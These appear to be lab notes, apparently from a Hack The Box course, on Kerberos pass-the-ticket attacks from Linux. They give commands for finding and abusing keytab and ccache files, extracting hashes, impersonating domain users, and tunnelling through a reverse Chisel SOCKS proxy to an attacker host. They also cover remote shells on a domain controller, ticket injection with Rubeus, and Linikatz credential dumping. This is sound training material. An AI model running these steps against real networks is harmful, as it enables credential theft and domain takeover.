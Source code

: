 # Pass the Ticket

***

_realm_ to check if Linux machine is Domain Joined

```bash
realm list
```

_ps_

```bash
ps -ef | grep -i "winbind\|sssd"
```

## Find Kerberos Tickets

### Keytab files

```bash
find / -name *keytab* -ls 2>/dev/null
```

```bash
crontab -l
```

_kinit_ allows interaction with Kerberos

### ccache Files

```bash
env | grep -i krb5
```

ccache files are located, by default, at /tmp.

```bash
ls -la /tmp
```

### Abusing KeyTab Files

```bash
klist -k -t 
```

```bash
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

```bash
smbclient //dc01/carlos -k -c ls
```

#### Keytab Extract

```bash
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

With the NTLM hash, we can perform a Pass the Hash attack. With the AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password.

[crackstation](https://crackstation.net/)

### Abusing Keytab ccache

```bash
ls -la /tmp
```

Identifying Group Membership with the id Command

```bash
id julio@inlanefreight.htb
```

#### Importing the ccache File into our Current Session

```bash
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
```

## Linux attack tools with Kerberos

### Host file

```shell-session
# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

### Proxychains

```shell-session
[ProxyList]
socks5 127.0.0.1 1080
```

[chisel](https://github.com/jpillora/chisel)

### Download Chisel to our Attack Host

```shell-session
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse 
```

```shell-session
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

#### Chisel from MS01

```cmd-session
C:\htb> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks
```

#### Impacket

```bash
proxychains impacket-wmiexec dc01 -k
```

#### Evil-Winrm

```bash
sudo apt-get install krb5-user -y
cat /etc/krb5.conf
```

```shell-session
proxychains evil-winrm -i dc01 -r inlanefreight.htb
```

## Miscellaneos

If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them. To use it, we specify the file we want to convert and the output filename. Let's convert Julio's ccache file to kirbi.

```shell-session
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```

**Importing Converted Ticket into Windows Session with Rubeus**

```cmd-session
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
```

## Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz)  is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. In other words, Linikatz brings a similar principle to `Mimikatz` to UNIX environments.

```shell-session
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
/opt/linikatz.sh
```
